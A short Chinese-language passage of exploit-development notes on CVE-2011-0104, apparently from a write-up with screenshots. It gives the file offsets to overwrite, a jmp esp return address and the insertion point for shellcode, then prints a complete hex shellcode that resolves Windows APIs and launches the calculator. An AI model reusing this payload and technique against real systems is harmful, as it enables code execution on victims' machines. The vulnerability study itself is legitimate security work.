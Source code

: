 ![image-20220721170949656](cve-2011-0104.assets/image-20220721170949656.png)

在文件中需要改成00000000 的地址为 0x139748 - 0x1396bb + 0x620 =  0x6ad

在文件中需要改成 0x7C86467B jmp esp的地址为 0x139720 - 0x1396bb + 0x620  =  0x685

shellcode需要插到0x6ad + 0x2c = 0x6d9的位置

```
动态找api弹计算机shellcode:
33C9648B41308B400C8B7014AD96AD8B5810538B533C03D38B527803D38B722003F333C941AD03C381384765745075F4817804726F634175EB8178086464726575E28B722403F3668B0C4E498B721C03F38B148E03D35B33C951B97865636151836C2403616857696E455453FFD233C951682E6578656863616C638BDC6A0553FFD0
```

![image-20220721174101209](cve-2011-0104.assets/image-20220721174101209.png)
